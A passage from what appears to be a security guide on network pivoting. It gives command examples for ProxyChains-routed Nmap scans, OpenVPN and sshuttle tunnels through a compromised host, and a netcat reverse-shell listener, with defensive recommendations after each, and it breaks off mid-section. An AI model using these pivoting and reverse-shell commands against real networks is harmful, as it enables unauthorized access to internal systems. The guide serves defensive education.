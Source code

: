 socks4 127.0.0.1 1080

Use ProxyChains with Nmap:

bash

            proxychains nmap -sT -Pn <internal_IP>

    Recommendations:
        Limit SSH access to trusted IP addresses.
        Use intrusion detection systems (IDS) to monitor and alert on unusual SSH activity.
        Regularly audit SSH configurations and review proxy settings.

B. VPN Pivoting

Description: Attackers can use VPNs to create secure tunnels from the compromised host to their command-and-control servers or to access internal network segments.

    Common Tools and Techniques:
        OpenVPN: A widely used open-source VPN software for secure communication.
        SSHuttle: A transparent proxy server that works as a VPN alternative for SSH servers.

    Command Examples:

        Setting Up a VPN Connection with OpenVPN:

        bash

openvpn --config compromised_host.ovpn

Using SSHuttle to Access Internal Networks:

bash

        sshuttle -r user@<target_IP> 0/0 -vv

    Recommendations:
        Implement network segmentation to limit the impact of a compromised host.
        Use strong VPN authentication mechanisms and regularly rotate VPN credentials.
        Monitor VPN connections for unusual or unauthorized activity.

C. Abusing Reverse Shells for Pivoting

Description: Reverse shells are commonly used for pivoting by initiating outbound connections from the compromised host to the attacker's system, bypassing firewall restrictions.

    Common Tools and Techniques:
        Netcat: A versatile networking tool that can create reverse shells.
        Metasploit: Framework to deploy reverse shell payloads.

    Command Examples:

        Establishing a Reverse Shell Using Netcat:
            Listener on Attacker Machine:

            bash

nc -lvnp 4444

Initiating a Reverse Shell on the Compromised Host:

bash
